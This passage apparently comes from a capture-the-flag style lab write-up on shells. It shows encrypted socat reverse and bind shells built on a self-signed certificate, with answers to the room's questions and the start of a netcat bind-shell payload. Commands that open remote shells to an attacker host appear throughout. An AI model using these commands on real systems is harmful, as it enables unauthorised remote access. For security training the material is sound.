 `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![](https://i.imgur.com/UbOPN9q.png)

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

`socat OPENSSL-LISTEN:53,cert=encrypt.pem, FILE:`tty`,raw,echo=0`

2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

`socat OPENSSL:10.10.10.5:53, EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

## Task 8 Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener: `nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target.
